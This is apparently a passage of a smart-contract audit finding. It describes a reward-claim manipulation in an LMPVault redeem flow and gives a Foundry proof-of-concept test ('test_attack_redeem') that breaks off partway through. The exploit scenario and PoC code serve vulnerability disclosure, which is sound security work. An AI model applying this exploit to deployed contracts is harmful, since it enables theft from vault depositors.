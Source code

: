 ```solidity
            IERC20(rewardToken).safeTransfer(account, reward);
        } else {
            // authorize gpToke to get our reward Toke
            // slither-disable-next-line unused-return
            IERC20(address(tokeAddress)).approve(address(gpToke), reward);

            // stake Toke
            gpToke.stake(reward, tokeLockDuration, account);
        }
    }
```


## Impact

This can be manipulated by attacker to trigger this reward claim to make `idle` value increase by redeem minimal amount of shares, followed up by redeem all the rest of attacker shares. The detailed scenario and potential profit explained in PoC below.

PoC Scenario : 

LMPVault have destination vault that have rewarder (100 eth), and all base asset is provided to this destination vaults, so idle will be 0 and debt will be full into the destination vault.

After some time (blocks), the LMPVault will have earned rewards share inside destination vaults. Alice see this and construct redeem operations, first redeem minimal share to trigger reward claim (will increase `idle`), followed up by redeem the rest of her share. 

foundry test, add this test to `LMPVaultMintingTests` contract and add `import "forge-std/console.sol";` inside `test/vaults/LMPVault-withdraw.t.sol` file.

```solidity
	function test_attack_redeem() public {
		_accessController.grantRole(Roles.SOLVER_ROLE, address(this));
		_accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));

		// admin is going to deposit 100 eth asset
		_asset.mint(address(this), 100e18);
		_asset.approve(address(_lmpVault), 100e18);
		_lmpVault.deposit(100e18, address(this));

		// Queue up some Destination Vault rewards
		_accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
		_accessController.grantRole(Roles.LIQUIDATOR_ROLE, address(this));

		_asset.mint(address(this), 100e18);
		_asset.approve(_destVaultOne.rewarder(), 100e18);
		IMainRewarder(_destVaultOne.rewarder()).queueNewRewards(100e18);

		// alice
		address alice = makeAddr("alice");
		_asset.mint(alice, 100e18);
		vm.startPrank(alice);
		_asset.approve(address(_lmpVault), 100e18);
		_lmpVault.deposit(100e18, alice);
		vm.stopPrank();

		// Deployed all asset to DV1
		_underlyerOne.mint(address(this), 100e18);
		_underlyerOne.approve(address(_lmpVault), 100e18);
		_lmpVault.rebalance(
			address(_destVaultOne),
			address(_underlyerOne), // tokenIn
			100e18,
			address(0), // destinationOut, none when sending out baseAsset
			address(_asset), // baseAsset, tokenOut
```